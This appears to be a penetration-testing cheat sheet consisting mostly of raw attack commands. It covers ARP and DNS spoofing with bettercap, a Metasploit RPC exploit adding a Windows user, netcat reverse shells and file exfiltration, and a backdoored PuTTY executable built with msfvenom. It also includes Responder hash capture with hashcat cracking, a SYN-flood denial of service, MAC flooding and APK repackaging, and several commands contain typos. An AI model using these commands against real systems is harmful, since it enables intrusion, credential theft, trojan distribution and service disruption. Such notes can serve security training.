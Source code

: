 #ARP Spoofing 

libnetfilter-queve-dev libpcap-dev 

net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets (IP)
arp.spoof on
set net.sniff.local true
net.sniff on


#DNS Spoofing 

net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets (IP)
arp.spoof on
net.sniff on
set dns.spoof.all true
set dns.spoof.domains iacsd.com
dns.spoof on

#HTTP Tunnelling

ngrok download 

./ngrok config auth-token
./ngrok http 80


#RPC using MSFConsole

search ms03_026
use "location"
show options
set RHOST "IP"
show payloads 
set payloads windows/shell/bind_tcp
show options 
exploit
set payloads windows/adduser
exploit

#SNMP Enumeration

snmp perl-tk
cpan Term::ReadKey
install libnet-snmp-perl libnumber-bytes-human-perl
wget snmpcheck1.8.pl
chmod 755 snmp.script
./snmp -d -t "IP"

#OS Detection, OS Scan
sudo nmap -O "IP"

#Vulnerability Assessment

sudo nmap -sV "IP"

#Netcat

install netcat
linux * netcat -lvvp 4444

windows * nc -vv "IP" 4444



echo "Good Morning" > secret.txt
type secret.txt

linux * nc -lvp 4444 > output.txt

windows * nc -vv "IP" 4444 < secret.txt 

linux * cat output.txt

windows * nc -lvvp 4444 -e cmd.exe

linux * nc -vv "IP" 4444

windows * mc -lvvp 4444

linux * nc -v "IP" 4444 -e /bin/bash

#Putty Trojan 

msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost="listener's IP" lport=4444 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o puttyx.exe

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set LHOST "Listener's IP"

exploit


#Socket Programming

import socket 
tcpsocket = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
tcpsocket.bind(("IP",8000))
tcpsocket.listen()
(clientsocket,(ip,port)) = tcpsocket.accept()
print(ip)
print(port)
clientsocket.send(b"\nPython Rocks"\n)
data = clientsocket.recv(2048)
print(data)
clientsocket.close()
tcpsocket.close()

#Flask

install python3 python3-pip python3-env

mkdir flask
cd flask

python3 -m venv

source bin/activate
pip3 install flask
python3 -c "import flask; print(flask.__version__)"

nano hello.py 

from flask import flask 
app = Flask(__name__)

@app.route('/')
def home():
	return "Hello, this is our First Flask Website";
if __name__ == '__main__':
	app.run(host='0.0.0.0',port=6001)
	
	
#Responder LLMNR/NBT-NS

#Kali 
apt-get install -y ca-certificates git hashcat ocl-icd-libopencl1 ocl-icd-opencl-dev python3 python3-netifaces 

git clone Responder

cd Responder

ls

./Responder.py -I ens33 -v

hashcat -m 5600 "logs.txt" "password.txt" --force

#Adb Shell 

apt-get install adb

adb devices

adb connect "IP"

adb shell

$id
$whoami
$ps
$ls

adb shell ls -l /mnt/sdcard

mkdir mob
cd mob
adb push text.txt /mnt/sdcard
adb shell cat /sdcard/text.txt

adb shell "pm list packages"

adb -s IP:5555 shell "cmd package list packages"

adn install "app.apk"

adb uninstall "app.apk"

adb shell screencap /sdcard/screencap.png

adb pull sdcard/screencap.png

adb cat /proc/version

adb shell cat /proc/cpuinfo

#Decompiling APK

wget -q "apk"

unzip -qq "apk" -d folder_extract

cd folder_extract

ls -l

apktool d "apk"

cd folder_extractnew

cat AndroidManifest.xml

mkdir newmob

cd newmob

git clone jadx

cd jadx

./gradlew dist

./build/jadx/bin/jadx --version

./jadx/build/jadx/bin/jadx "apk" -d jadx_extract

cat jadx_extract/sources

find jadx_extract/sources -name *.java

apktool b folder_extract -o "newapk"

apt-get install default-jdk/jre 

jarsigner -verify "apk"

jarsigner -verify "newapk"

mkdir keys

keytool -genkey -v keystore mykeys.keystore -alias MyKeys -keyalg RSA -keysize 2048 -validity 10000

keytool -list -keystore mykeys.keystore 

cd newmob

jarsigner --verbose -sigalg SHA256withRSA -dig estalg SHA1 -keystore keys/mykeys.keystore newmob/newapk MyKeys

ls -l folder_extract/MetaINF/*.RSA

keytool -printcert -file folder_extract/MetaINF/Release.RSA

#SYNFLOOD
#MSFConsole

search synflood

use auxiliary/dos/tcp/synflood

show options

set RHOSTS "Victim's IP"

exploit

#Mac Flooding

apt-get install macof 

sudo macof -i ens33

#DNS Enumeration

set type = ns

server checkpoint.com

ls -d "checkpoint.com"

#Banner Grabbing

telnet ip portno.
Head /HTTP/1.1

nmap -sV "IP"


